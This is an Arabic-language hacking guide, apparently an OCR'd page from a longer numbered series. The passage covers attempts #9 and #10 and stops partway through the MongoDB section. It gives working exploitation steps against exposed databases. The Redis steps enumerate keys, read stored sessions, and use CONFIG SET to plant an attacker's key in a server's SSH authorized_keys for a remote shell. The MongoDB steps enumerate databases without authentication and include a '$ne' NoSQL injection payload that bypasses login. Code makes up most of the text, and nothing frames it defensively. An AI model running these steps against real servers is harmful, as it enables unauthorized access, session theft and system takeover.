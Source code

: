 
## 🧪 المحاولة #9: استخدام Redis CLI لاكتشاف البيانات

### ⚙️ الفكرة:
Redis هو نظام تخزين سريع، وأحيانًا يستخدم لتخزين بيانات الجلسة أو cache.

### ✔️ كيف تكتشف:
```bash
redis-cli -h target.com KEYS *
```

### 💥 الاستغلال:
- قراءة الجلسات المخزنة:
```bash
GET session:abc123
```

- كتابة ملف SSH:
```bash
CONFIG SET dir /home/ubuntu/.ssh
CONFIG SET dbfilename authorized_keys
SET mykey "\n\nssh-rsa AAAAB3NzaC1yc2EAAA..."
SAVE
```

### 📌 النتيجة:
- الوصول إلى shell عن بعد باستخدام SSH.

---

## 🧪 المحاولة #10: استخدام MongoDB & NoSQL Databases

### ⚙️ الفكرة:
MongoDB وغيرها من NoSQL أكثر عرضة للمخاطر بسبب الإعدادات الافتراضية أو عدم وجود صلاحيات صارمة.

### ✔️ كيف تكتشف:
```bash
mongo target.com:27017
show dbs
use admin
show collections
db.users.find()
```

### 💥 الاستغلال:
- استخدام طلب غير آمن:
```json
{
  "username": { "$ne": null },
  "password": { "$ne": null }
}
```
